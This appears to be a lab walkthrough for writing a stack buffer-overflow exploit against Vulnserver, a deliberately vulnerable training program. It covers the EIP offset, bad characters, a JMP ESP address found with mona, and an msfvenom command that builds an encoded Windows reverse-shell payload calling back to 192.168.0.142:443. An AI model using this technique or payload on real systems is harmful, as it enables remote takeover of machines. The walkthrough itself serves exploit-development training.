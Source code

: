 # Vulnserver exploit development

1. Use `fuzz.py` to know how many A will get overflow.

    You will see AAAA on EIP `CPU - thread 000006BC` window

2. Use pattern to locate where EIP is

    ```sh
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 396F4338
    [*] Exact match at offset 2006
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/vuln_bbbb.png)

4. Expand the payload from 2100 to 2500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/vuln_490c.png)

5. Bad characters checker, badchars is \x00 only, see code at bad_chars.py

6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    ![hashdump](../../images/vuln_modules.png)

7. Inspect the memory map on `Memory map` windows

    ![hashdump](../../images/vuln_memory_map.png)

8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    ```
    root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    jmp esp 
    nasm > jmp esp
    00000000  FFE4              jmp esp
    ```

9. use mona to find address => 0x625011af

    `!mona find -s "\xff\xe4" -m essfunc.dll`

    ![hashdump](../../images/vuln_dll_ffe4.png)

10. update the script to replace B with address  \xaf\x11\x50\x62, set breakpoint at 0x625011af

    ![hashdump](../../images/vuln_exec_cccc.png)

11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC

    ![hashdump](../../images/vuln_breakpoints.png)

12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/reverse_shell.png) 

## Extra knowledge

!!! Dont attach to an existing process, use open.


Explain of NXCOMPACT, only protect 
https://blog.csdn.net/zhou191954/article/details/38048345
